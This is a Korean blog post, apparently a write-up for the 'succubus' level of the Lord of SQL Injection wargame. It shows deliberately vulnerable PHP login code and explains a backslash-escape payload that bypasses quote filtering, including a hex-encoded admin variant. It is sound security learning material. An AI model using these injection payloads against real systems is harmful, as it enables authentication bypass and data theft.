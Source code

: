 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - succubus 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `succubus`이다.  

`succubus`는 처음 듣는 이름이라 찾아봤는데, 중세 유럽의 전설이랑 민속에 나오는 악마 이름이라고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------
query : select id from prob_succubus where id='' and pw=''
-----------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

지난 번 문제랑 뭐가 다른가 했는데, `ereg()` 대신에 `preg_match()`가 사용되었다.  

이번엔 정말로 `'`를 우회해야 하는 문제인 것 같다.  

처음에는 `preg_match()` 함수에 취약점이 있지 않을까 생각했다.  

그런데 아무리 찾아도 취약점이 있다는 내용이 보이지 않았고, 아직까지 `preg_match()`에 대한 취약점이 나오지 않았다는 글이 2017년에 올라와 있었다.  

그럼 다른 방법으로 문제를 풀어야 했기 때문에 엄청 고민을 했다.  

이런저런 키워드로 검색을 했는데, 그러다가 `\`에 필터링이 없을 경우 이를 이용 해 문제를 풀 수 있다는 내용을 봤다.  

문제에서, `id`와 `pw`를 입력받고 있다.  

이 때, 만약 `id`에 `\`를 입력하고 `pw`에는 ` or 1#`를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id from prob_succubus where id='\' and pw' or 1#
```

때문에 `id`의 뒤에 있는 `'`는 `\'`가 되며 싱글 쿼터 내의 문자로 인식된다.  

즉, `id`가 `' and pw`인 행을 찾게 되는 것이다.  

물론 테이블에는 `id`가 `' and pw`인 행은 없을 것이므로, 뒤의 `or 1`이 실행되며 값을 추출할 수 있게 된다.  

따라서 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=\&pw= or 1%23
```

문제에서는 결과로 추출 된 `id`만 있으면 되기 때문에 `or 1`을 사용했는데, 만약 `admin`인 `id`를 추출했어야 했다면 `or id=0x61646d696e%23`을 `pw`에 입력하면 문제를 풀 수 있다.  

```php
---------------------------------------------------------------------
query : select id from prob_succubus where id='\' and pw=' or 1#'
---------------------------------------------------------------------

SUCCUBUS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`SUCCUBUS Clear!!`
